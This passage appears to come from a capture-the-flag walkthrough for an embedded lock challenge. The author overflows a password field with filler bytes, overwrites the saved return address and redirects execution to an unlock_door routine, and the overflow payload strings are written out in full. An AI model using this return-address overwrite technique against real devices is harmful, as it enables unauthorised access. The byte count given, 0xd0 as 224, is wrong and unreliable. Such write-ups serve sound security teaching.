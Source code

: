 Let's try that.

I enter
\texttt{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa}
(length of 0x20) as username.

we want the toal to be 0x0100 to test our hypothesis. So we need 0xd0
more (14 * 16 = 224 bytes).

Entering
\texttt{bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb}
it works and we get lost at a random address. We've successfully
overwrote the return address.

Breaking on the return instruction we can see at what address the Saved
PC is (at the SP address).

\includegraphics{img/11_5.PNG}

So we can enter our personalized return address at the byte number 5 and
6 of our password (if our username is of length 0x20 of course). Let's
return at the instruction \texttt{unlock\_door}.

So entering the same username, and this as password works:

\texttt{bbbbbbbb1c46bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb}

\section{Level 12: Addis Ababa}\label{level-12-addis-ababa}

\includegraphics{img/12_1.PNG}

